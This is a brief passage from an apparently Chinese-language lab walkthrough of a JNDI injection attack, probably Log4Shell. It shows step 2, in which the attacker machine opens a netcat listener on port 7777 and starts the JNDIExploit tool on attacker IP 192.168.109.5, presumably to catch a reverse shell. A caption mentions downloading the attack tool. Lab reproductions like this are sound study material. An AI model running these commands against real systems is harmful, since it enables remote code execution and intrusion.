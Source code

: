 <img src="picture/下载攻击并解压攻击工具.png" alt="下载攻击并解压攻击工具" style="zoom:50%;" />

2.攻击机监听指定端口（在此选择7777端口），之后运行JNDEExploit工具监听在attackerIP上。

```bash
# 攻击机监听7777端口
nc -l -p 7777
# 运行JNDEExploit工具
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.109.5
```

